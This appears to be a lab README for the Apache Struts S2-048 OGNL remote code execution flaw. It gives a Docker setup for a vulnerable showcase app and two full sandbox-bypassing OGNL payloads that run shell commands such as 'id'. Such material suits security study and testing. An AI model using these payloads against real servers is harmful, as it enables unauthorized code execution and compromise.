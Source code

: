 # S2-048 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.32

Details:

 - http://struts.apache.org/docs/s2-048.html
 - http://bobao.360.cn/learning/detail/4078.html
 - http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/

## Setup

```
docker-compose up -d
```

## Expliot

This environment is a struts-2.3.32 showcase, in tomcat-8.5. After the environment run, visit the `http://your-ip:8080/showcase/` to view struts2 showcase.

Access Integration/Struts 1 Integration:

![](01.png)

The OGNL expression vulnerability position is `Gangster Name` form.

Enter `${233*233}` to see the results of the execution:

![](02.png)

Refer S2-045's sandbox bypass method, here is my POC:

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![](03.png)

Of course, you can also use the POC of s2-045 directly (need Burpsuite):

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
